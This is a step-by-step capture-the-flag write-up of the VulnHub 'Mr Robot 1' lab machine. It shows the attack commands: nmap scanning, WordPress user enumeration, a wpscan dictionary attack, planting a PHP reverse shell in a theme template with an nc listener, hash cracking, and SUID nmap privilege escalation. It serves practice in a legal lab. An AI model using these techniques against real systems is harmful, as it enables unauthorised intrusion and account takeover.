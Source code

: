 # Hacking Mr Robot styles
## By: Daniel Santiago
  > A simple writeup of the 'mr robot 1' challenge from vulnhub.com
  challenge: https://www.vulnhub.com/entry/mr-robot-1,151/
  Tools: https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/


  1. First we need to 'probe' the machine to see what's going on:
    * `nmap -sV <target IP>`
  2. As you can see this machine has an open `http` connection on port: `80`. So the next thing to try is open that IP address in the browser to see what it is.

  3. Since this is kind of an interactive page and we are not sure if we can actually use what we are seeing to exploit the machine we should now try to check what's in the `robots.txt` page (this is a 'standard' file in most websites, here's a link with some info: `https://moz.com/learn/seo/robotstxt`).

  4. Now that we can see some files notice that we found our first key `key-1-of-3.txt`. Now let's go ahead and check that other file that we are getting(`fsociety.dic`).

  5. Since we now have a password dictionary let's go ahead and sort it and count the words to see if we have repeated passwords.
    ```
    $wget <target IP>/fsociety.dic
    $wc -l fsociety.dic
    $sort -u fsociety.dic > sorted.txt
    $wc -l sorted.txt
    ```

  6. Notice that we lowered our number of passwords. The next thing we should check is if the page that we are checking is a `WordPress` page. To do this just try to navigate to `<target IP>/readme.txt` if you find a page that tells you the version of word press you win.

  7. Now that we now that this is a `WordPress` page we can use simple tools to try and exploit it. Let's go ahead and try to get into the `wp-login.php` page of the site. Navigate to '<target IP>/wp-login.php'. A nice thing that `WordPress` does for us hackers is tell us what users are valid targets or not. Notice that if you enter a random user and password combination the page will actually tell you if the user is a valid user for that site by giving us an error and telling us we are using an invalid username.(how nice of `WordPress`).

  8. Since this is a `Mr Robot` challenge we should try to reference some of the show's characters. Try entering the names of a few characters until you find a valid one.

  9. Now that we have a username we should try to use our trusty `wpscan` tool with our password list for a nice dictionary attack on the site.
  ```
  $wpscan -u http://<target Ip>/wp-login.php --wordlist <sorted.txt> --username elliot --wp-content-dir wp-content
  ```
  10. Now that we have access to the `WordPress admin page` we should first see if we can upload a page or a file of some sort.
    > We will be modifying a payload that comes with kali linux that is available in /usr/share/webshells/php/php-reverse-shell.php
    * cp /usr/share/webshells/php/php-reverse-shell.php backdoor.php

  11. Let's modify our exploit according to our machine. The only things we have to modify on this fie is the `$ip` and the `$port` variables. Now that we have that let's upload the content of the page by simple going to the `Appearence>Editor` page of the `WordPress` admin page. Now choose the `404 Template` and go ahead and substitute it's content with the code of our exploit.

  12. Next we have to setup a `listener` for this we will be using our networking `swiss army knife`
    ```
    nc -lvnp <port>
    ```

  13. Now that we have our listener all we need to do is try to go to a page such that we get the `404 Template`

  14. Now that we have a shell let's get something out of the way and `spawn` a "proper" shell
    ```
    $python -c "import pty; pty.spawn('/bin/sh')"
    ```

  15. Let's navigate to `/home` and list what's there just to see what we can find.
    ```
    $cd /home
    $ls
    cd /robot
    ```

  16. Now that we have entered one of the users `filesystem` let's see what this user has. Notice that we have just found our 2 key but we can't actually see it since it has proper user permissions.

  17. Since there's a password file let's suppose that this is the password for this user. Now we just have to crack it. Save it to a file just as it is. Next let's use `hashcat` to crack our password. (First let's get our cracking dictionary)
    ```
    $hashcat crackme.txt rockyou.txt
    $su robot
    ```

  18. Now that we have a password for this user let's login to see what we can find. Since we can't see what `root` has in his home folder let's try a little `priveledge escalation`.First let's see which files we can execute that belong to `root`.
    ```
    $find / -user root -perm -4000
    ```

  19. Notice that one of the binaries that we list is nmap. So let's use it's `interactive mode` to escalate to root.
    ```
    $nmap --interactive
    nmap> !sh
    ```

  20. Now that we are `root` let's navigate our `home folder`. And we have actually found our final key.

>With love Daniel San...
